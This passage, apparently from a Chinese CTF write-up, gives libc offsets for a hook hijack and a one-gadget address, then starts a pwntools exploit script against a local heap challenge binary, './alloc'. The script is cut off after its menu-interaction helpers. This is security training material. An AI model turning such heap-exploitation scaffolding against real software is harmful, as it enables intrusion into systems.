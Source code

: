 偏移`0x3c4aed`就是要劫持过去的地址(首先得确保绕过检查)，偏移`0x4527a`是one gadget地址
## 完整脚本
```python
from pwn import *
#context(os='linux', arch='mips',endian="little", log_level='debug')
context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['tmux', 'sp', '-h']

# 启动方式----------------------------------------------------

file_name = "./alloc"
elf=ELF(file_name)
url = ""
port = 0

def debug(filename = file_name,b_slice=[],is_pie=0,is_start = 1):
    global p
    b_string = ""
    if is_pie:
        for i in b_slice:
            b_string += f"b *$rebase({i})\n"
    else:
        for i in b_slice:
            b_string += f"b *{hex(i)}\n"
    if is_start :
        p = gdb.debug(filename,b_string)
        return
    else:
        gdb.attach(p,b_string)
        pause()

b_examp=0xE7F

b_slice = [
    b_examp
]
p = process(file_name)
debug(b_slice = b_slice,is_pie=1,is_start=1) # 直接启动带pie


def alloc(size):
    p.recvuntil(b"Command: ")
    p.sendline(b"1")
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
def fill(idx, content):
    p.recvuntil(b"Command: ")
    p.sendline(b"2")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(len(content)).encode())
    p.recvuntil(b"Content: ")
    p.send(content)
def free(idx):
    p.recvuntil(b"Command: ")
    p.sendline(b"3")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
def show(idx):
    p.recvuntil(b"Command: ")
    p.sendline(b"4")
```